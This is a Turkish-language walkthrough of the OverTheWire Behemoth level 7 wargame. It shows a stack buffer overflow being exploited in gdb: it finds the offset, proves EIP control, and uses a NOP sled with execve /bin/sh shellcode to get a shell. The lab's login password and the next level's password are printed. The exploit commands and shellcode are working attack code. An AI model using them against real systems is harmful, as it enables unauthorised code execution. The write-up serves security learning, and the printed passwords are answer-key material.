


# Behemoth: Level 7 Writeup

    ssh behemoth7@behemoth.labs.overthewire.org -p 2221
    password: baquoxuafo




Debugger üzerinde incelemeye başladığımızda stack içerisinden `0x20c` kadar bir alan ayrıldığını görüyoruz.

```python
>>> 0x20c
524
```

Bunun kaç karaktere tekamül ettiğini öğrendikten sonra `EIP` üzerine acaba birşeyler yazabilir miyiz diye test edelim.

```bash
(gdb) r $(python -c 'print "A"*524 + "BBBB" + "CCCC" + "DDDD" + "EEEE" + "FFFF"')
Starting program: /behemoth/behemoth7 $(python -c 'print "A"*524 + "BBBB" + "CCCC" + "DDDD" + "EEEE" + "FFFF"')

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
(gdb)
```

Evet tahminlerimiz doğru çıktı ve `EIP` registerını kontrol etmeyi başardık. Bundan sonrası klasik stack tabanlı buffer overflow zafiyetini exploit etme yöntemi olacak.

Stack içerisine shellcode yükleyip bu shellcode'un önünede biraz `NOP` ekleyerek `EIP` üzerine bu `NOP` adreslerinin bulunduğu kısımlardan bir adres yazacağız ve shellcode'u çalıştıracağız

```bash
(gdb) r $(python -c 'print "A"*528 + "BBBB" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
Starting program: /behemoth/behemoth7 $(python -c 'print "A"*528 + "BBBB" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/64x $esp
0xffffd320:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd330:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd340:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd350:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd360:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd370:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd380:	0x90909090	0x6850c031	0x68732f2f	0x69622f68
0xffffd390:	0x89e3896e	0xb0c289c1	0x3180cd0b	0x80cd40c0
0xffffd3a0:	0x08048600	0xf7fe9070	0xffffd3ac	0xf7ffd920
0xffffd3b0:	0x00000002	0xffffd50d	0xffffd521	0x00000000
0xffffd3c0:	0xffffd7b6	0xffffd7c9	0xffffdd85	0xffffdda0
0xffffd3d0:	0xffffddd6	0xffffddeb	0xffffde03	0xffffde12
0xffffd3e0:	0xffffde23	0xffffde3a	0xffffde4e	0xffffde5d
0xffffd3f0:	0xffffde6b	0xffffde74	0xffffde89	0xffffdeac
0xffffd400:	0xffffdec3	0xffffdeda	0xffffdeed	0xffffdef9
0xffffd410:	0xffffdf12	0xffffdf22	0xffffdf36	0xffffdf41
(gdb)
```

```bash
(gdb) r $(python -c 'print "A"*528 + "\x40\xd3\xff\xff" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
Starting program: /behemoth/behemoth7 $(python -c 'print "A"*528 + "\x40\xd3\xff\xff" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
process 24707 is executing new program: /bin/dash
$ id
uid=13007(behemoth7) gid=13007(behemoth7) groups=13007(behemoth7)
$
```



`behemoth8:pheewij7Ae`

Böylelikle `behemoth` makinesindeki sorularıda halletmiş olduk :)
